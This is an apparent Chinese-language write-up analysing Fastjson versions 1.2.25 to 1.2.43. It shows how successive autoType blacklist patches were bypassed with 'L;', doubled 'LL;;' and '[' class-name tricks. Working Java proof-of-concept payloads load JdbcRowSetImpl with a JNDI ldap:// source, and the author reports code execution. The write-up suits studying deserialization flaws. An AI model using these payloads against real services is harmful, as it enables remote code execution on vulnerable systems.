 # FastJson各版本补丁绕过分析

## 1.2.25~1.2.41

关于1.2.25的修复改动

1. `autotype`默认为`false`
2. 增加 `checkAutoType` 方法，在该方法中进行黑名单校验，同时增加白名单机制

绕过方法：使用`L;`进行绕过

在maven中将`fastjson`的版本改为`1.2.25`再去执行原来的POC就会发现已经无法执行了。报错是不支持`autoType`

![image-20220922142603975](img/image-20220922142603975.png)

先看看在1.2.25版本中修复的一些点，可以使用idea中的compare来diff一下1.2.24和1.2.25版本的变化

![image-20220922155242048](img/image-20220922155242048.png)

这个方法会记录汇总在学习中的小tips当中。

在1.2.25中更新增加了一个`checkAutoType`方法来检测，下面开始调试，跟进

![image-20220922155802836](img/image-20220922155802836.png)

这里是先进行了一个判断，只要不为空，即可继续进行，随后给`className`赋值，做了下替换`TypeName`的值，如果存在`$`则替换为`.`

继续到这里会发现，都是两个条件都为false，直接跳到后面

![image-20220922160745879](img/image-20220922160745879.png)

这里未开启`autoType`即为`true`，所以进入循环进行黑名单判断

![image-20220922160901429](img/image-20220922160901429.png)

这边可以看到，`com.sum.`是在黑名单中的，所以这里直接抛出异常，不支持这个`com.sun.rowset.JdbcRowSetImpl`

![image-20220922161143305](img/image-20220922161143305.png)

后面这部分虽然没有走，但是可以看出来是白名单，如果传入的`className`的值不是在黑名单中的，那就将它添加到白名单中。符合前面所有条件后再去`loadClass`

![image-20220922161412056](img/image-20220922161412056.png)

这个是更新的补丁做的修复。下面看绕过的分析

开启`autotype`在POC中添加下面的代码

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

现在的POC，我打算一步一步来，先看开启autotype后是走到哪里

![image-20220922162029324](img/image-20220922162029324.png)

调试一下

这是我下的断点（随便下的，看哪里顺眼就往哪下）

![image-20220922162256476](img/image-20220922162256476.png)

基本可以看懂逻辑了。还是跟踪一下看看

![image-20220922162355270](img/image-20220922162355270.png)

直接来到这里，已经开启`autotype`就直接走这里了，但是由于白名单是空的，所以来判断黑名单了，再次被匹配到，直接抛出异常。

![image-20220922162527125](img/image-20220922162527125.png)

再次修改POC，这次将类的写法换成`Lcom.sun.rowset.JdbcRowSetImpl;`

![image-20220922162705443](img/image-20220922162705443.png)

再次调试，这次前面重复的就不跟了，直接到`Lcom.sun.rowset.JdbcRowSetImpl;`不匹配黑名单后面

![image-20220922163134165](img/image-20220922163134165.png)

这里依旧是进入判断，继续执行，跟进`TypeUtils.loadClass`中

![image-20220922163403029](img/image-20220922163403029.png)

可以发现这里有一个非常契合我们POC中的payload的点

```java
if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
```

`className`是以`L`开头，以`;`结尾那么将它使用`substring`方法截取一下，真有趣，不知道是不是为了这个漏洞专门写的方法哈哈哈

![image-20220922163701901](img/image-20220922163701901.png)

又重新得到了`com.sun.rowset.JdbcRowSetImpl`再去`loadClass`，就可以愉快的进行后面的步骤了

## 1.2.25~1.2.42

这个版本修复了1.2.41时的漏洞，具体修复情况看官方修改的代码

![image-20220923103150619](img/image-20220923103150619.png)

再一次进行了`loadClass`，这个过滤比较无语，在写一次就能绕过，也就是双写`L;`

POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```

![image-20220923105143556](img/image-20220923105143556.png)

`loadClass:1091`去掉一层`L;`，第二次再次去掉一层`L;`就得到了`com.sun.rowset.JdbcRowSetImpl`

经历两次一模一样的方法处理。

![image-20220923105414453](img/image-20220923105414453.png)

## 1.2.25~1.2.43

在1.2.43版本的补丁修复中，增加了以下验证，也就是在checkAutoType后又添加了一层判断逻辑

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```

在`loadClass`前面执行，如果是双写`L`就会抛出异常。

所以双写`L`这边也给禁掉了。还有一个思路是跟判断开头是`L`结尾是`;`的逻辑的同步逻辑中，还有这样一段代码。

```java
else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
```

现在大致是这么理解，然后现在说POC

```java
public class POC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String st = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/#Exploit\", \"autoCommit\":true}";
        JSON.parse(st);
    }
}
```

原本的POC是这样，只是在`autotype`的值前面加上一个`[`，来调用`Array.newInstance`去绕过禁用双`L`的修复。但是这样执行POC的话，会报错。

![image-20220923171104344](img/image-20220923171104344.png)

意为希望42列这里存在一个`[`至于是为什么，这个不清楚，但是稍微想一想，他一定不会是开发在提示你这个漏洞的POC该怎么写吧。所以就猜测可能是语法问题。至于为什么写，不深究（是因为也看不懂）

然后继续执行POC

![image-20220923171314132](img/image-20220923171314132.png)

再次报错，希望在43列的位置存在一个`{`

继续添加上去，再次执行，可以看到成功执行并弹出计算器

![image-20220923171441267](img/image-20220923171441267.png)

这也就是这个版本的修复与绕过



